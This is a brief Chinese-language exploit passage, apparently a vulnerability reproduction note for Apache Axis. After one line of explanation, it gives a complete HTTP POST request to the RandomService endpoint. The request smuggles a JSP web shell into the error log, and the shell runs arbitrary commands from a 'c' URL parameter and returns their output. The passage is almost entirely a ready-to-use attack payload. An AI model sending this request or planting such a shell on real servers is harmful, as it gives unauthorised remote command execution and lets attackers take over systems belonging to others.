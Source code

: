![image-20230630164154570](images/image-20230630164154570.png)

请求RandomService，利用报错将错误日志写入到shell文件：

```
POST /axis/services/RandomService HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
Content-Length: 874
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<?xml version="1.0" encoding="utf-8"?>
        <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Body>
        <api:main
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <api:in0><![CDATA[
<%@page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%>
]]>
            </api:in0>
        </api:main>
  </soapenv:Body>
</soapenv:Envelope>
```
